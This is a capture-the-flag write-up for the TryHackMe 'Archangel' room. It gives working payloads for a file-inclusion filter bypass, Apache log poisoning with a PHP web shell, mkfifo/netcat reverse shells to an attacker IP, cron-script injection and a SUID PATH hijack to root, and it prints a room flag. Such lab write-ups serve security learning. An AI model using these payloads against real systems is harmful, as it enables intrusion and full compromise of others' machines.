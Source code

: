 🧩 LFI to RCE + Root on Archangel (TryHackMe - Easy)
🔍 Local File Inclusion

The decoded base64 reveals a test.php endpoint with the following logic:

<?php
//FLAG: thm{explo1t1ng_lf1}
function containsStr($str, $substr) {
    return strpos($str, $substr) !== false;
}
if (isset($_GET["view"])) {
    if (!containsStr($_GET['view'], '../..') &&
        containsStr($_GET['view'], '/var/www/html/development_testing')) {
        include $_GET['view'];
    } else {
        echo 'Sorry, Thats not allowed';
    }
}
?>

🧠 Vulnerability Insight:

    It blocks ../.. and requires the string /var/www/html/development_testing in the path.

    ✅ Bypass: ..//.. still resolves to ../.. in the file system but bypasses the string check.

👉 Payload:

/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//etc/passwd

📦 Impact:

    Confirmed LFI.

    Discovered archangel user via /etc/passwd.

💥 From LFI to RCE via Log Poisoning

🧪 Target: Apache access logs at /var/log/apache2/access.log.

📡 Injected malicious PHP code via Netcat:

nc mafialive.thm 80
GET /<?php system($_GET['cmd']); ?> HTTP/1.1

👁️ Validation:

    Included the log via LFI and saw PHP output executed.

🚪 Reverse Shell Payload:

/test.php?view=/var/.../access.log&cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>%261|nc%2010.2.29.238%209001%20>/tmp/f

🐚 Result: Shell as www-data.
🔐 Horizontal Privilege Escalation → archangel

📁 Interesting User-Owned Files:

find / -user archangel 2>/dev/null

🎯 Target: /opt/helloworld.sh — writable by www-data.

📅 Cronjob:

*/1 * * * * archangel /opt/helloworld.sh

🧨 Injected reverse shell into the script:

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.29.238 9002 >/tmp/f" >> /opt/helloworld.sh

🔁 Waited for the cronjob…

✅ Shell as archangel obtained.
⚙️ Root Privilege Escalation via SUID Binary

📦 Found binary: /home/archangel/myfiles/backup

    SUID bit set

    Executes cp without full path

🔍 Reverse Engineered with Ghidra:

setuid(0);
setgid(0);
system("cp /home/user/archangel/myfiles/* /opt/backupfiles");

🎯 Exploit:

    Created malicious cp:

echo "/bin/bash" > cp
chmod +x cp
export PATH=.:$PATH

💣 Execute SUID binary:

./backup

🚀 Shell as root achieved.
🏁 Summary:
Stage	Technique	Result
Initial Foothold	LFI Bypass via ..//..	File Read
RCE	Log Poisoning + PHP Injection	www-data Shell
Lateral Move	Writable Cron + Reverse Shell	Shell as archangel
Root	PATH Hijack in SUID Binary	Full Root Access

🏆 Flags Pwned:
🧩 thm{explo1t1ng_lf1}
🔐 user.txt
👑 root.txt

